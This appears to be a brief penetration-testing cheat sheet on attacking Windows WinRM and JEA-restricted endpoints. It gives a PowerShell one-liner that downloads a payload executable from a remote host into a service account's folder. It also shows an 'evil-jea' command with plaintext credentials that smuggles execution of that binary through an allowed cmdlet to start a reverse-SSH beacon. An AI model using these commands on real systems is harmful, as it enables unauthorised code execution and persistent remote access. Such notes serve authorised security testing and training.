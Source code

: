 # WINRM

Download file

```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData("http://192.168.20.31:4445/pld.exe");[System.IO.File]::WriteAllBytes("C:\\Users\\adfs_svc\\Documents\\pipa.exe\", \$bytes);
```

### JEA

{% embed url="https://github.com/sashathomas/evil-jea" %}

Call `info` command, analyze functions and avaible cmdlets

Example,  run rssh beacon

```bash
evil-jea run adfs_svc 'S3cur!ty' 192.168.20.15   -c 'Get-AsciiArt $(C:\Users\adfs_svc\Documents\bi.exe | Out-String)'
```
